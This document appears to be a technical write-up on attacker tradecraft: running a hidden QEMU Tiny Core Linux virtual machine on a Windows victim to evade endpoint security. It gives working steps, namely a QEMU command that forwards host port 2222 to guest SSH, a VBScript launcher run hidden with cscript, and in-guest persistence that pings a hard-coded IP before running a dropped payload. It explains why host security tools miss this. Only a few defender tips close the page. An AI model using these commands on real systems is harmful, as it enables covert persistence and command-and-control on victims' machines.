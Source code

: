### Quick one-liner

```powershell
# Windows victim (no admin rights, no driver install – portable binaries only)
qemu-system-x86_64.exe ^
   -m 256M ^
   -drive file=tc.qcow2,if=ide ^
   -netdev user,id=n0,hostfwd=tcp::2222-:22 ^
   -device e1000,netdev=n0 ^
   -nographic
```

• The command above launches a **Tiny Core Linux** image (`tc.qcow2`) in RAM.  
• Port **2222/tcp** on the Windows host is transparently forwarded to **22/tcp** inside the guest.  
• From the attacker’s point of view the target simply exposes port 2222; any packets that reach it are handled by the SSH server running in the VM.

### Launching stealthily through VBScript

```vb
' update.vbs – lived in C:\ProgramData\update
Set o = CreateObject("Wscript.Shell")
o.Run "stl.exe -m 256M -drive file=tc.qcow2,if=ide -netdev user,id=n0,hostfwd=tcp::2222-:22", 0
```

Running the script with `cscript.exe //B update.vbs` keeps the window hidden.

### In-guest persistence

Because Tiny Core is stateless, attackers usually:

1. Drop payload to `/opt/123.out`  
2. Append to `/opt/bootlocal.sh`:

   ```sh
   while ! ping -c1 45.77.4.101; do sleep 2; done
   /opt/123.out
   ```

3. Add `home/tc` and `opt` to `/opt/filetool.lst` so the payload is packed into `mydata.tgz` on shutdown.

### Why this evades detection

• Only two unsigned executables (`qemu-system-*.exe`) touch disk; no drivers or services are installed.  
• Security products on the host see **benign loopback traffic** (the actual C2 terminates inside the VM).  
• Memory scanners never analyse the malicious process space because it lives in a different OS.

### Defender tips

• Alert on **unexpected QEMU/VirtualBox/KVM binaries** in user-writable paths.  
• Block outbound connections that originate from `qemu-system*.exe`.  
• Hunt for rare listening ports (2222, 10022, …) binding immediately after a QEMU launch.

---